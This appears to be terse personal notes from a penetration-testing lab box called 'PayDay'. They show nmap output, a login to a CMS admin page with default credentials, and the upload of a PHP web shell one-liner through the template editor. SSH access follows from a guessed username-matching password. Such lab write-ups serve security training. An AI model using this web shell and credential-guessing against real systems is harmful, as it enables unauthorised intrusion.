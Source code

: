 # PayDay
# date - 5-8-2023
# ip - 192.168.230.39

default pass at cms admin > templates can edit > rev shell uploaded > get revshell > brutforce or guess pass same as name of user

# nmap
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
80/tcp  open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
110/tcp open  pop3        Dovecot pop3d
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
993/tcp open  ssl/imap    Dovecot imapd
995/tcp open  ssl/pop3    Dovecot pop3d



http://192.168.230.39/admin.php will direct us to the admin login page, the password for the admin user is unchanged. admin:admin




# exploitation 
Navigate to → http://192.168.82.39/admin.php?target=template_editor,then upload via local then choose shell.phtml

The contents of shell.phtml should be <?php system($_GET[‘cmd’]); ?> for us to get a webshell. We can also use php-reverse-shell.phtml to get a reverse shell right away.
#
 http://192.168.230.39/skins/shell.phtml

 got rev shell

 brutforce ssh
 or guess
 patrick:patrick
 boom

└─$ ssh patrick@192.168.230.39 -oHostKeyAlgorithms=+ssh-dss  



